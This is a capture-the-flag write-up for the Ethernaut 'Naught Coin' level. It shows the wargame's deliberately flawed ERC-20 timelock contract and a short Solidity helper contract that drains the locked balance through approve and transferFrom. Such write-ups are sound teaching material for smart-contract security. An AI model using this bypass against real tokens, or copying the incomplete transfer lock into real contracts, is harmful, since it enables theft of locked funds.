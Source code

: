 # Ethernaut: 15. Naught Coin

> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely?

**Objective of CTF:**

- Complete this level by getting your token balance to 0.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player)
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }

  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  }
}
```

Here we have a simple ERC-20 contract in our hands, that prevents us to `transfer` money to someone. However, this does not prevent us to `approve` that someone, and let them call `transferFrom` to take our money. That is precisely what we are going to do. We create and deploy a simple contract:

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/IERC20.sol";

contract NaughtWithdraw {
  function withdrawFrom(address _tokenAddr, address _from, uint _amount) public {
    bool success = IERC20(_tokenAddr).transferFrom(_from, address(this), _amount);
    require(success, "failed!");
  }
}
```

Then, we simply approve all our tokens to this address, and call `withdrawFrom` there with the respective parameters.
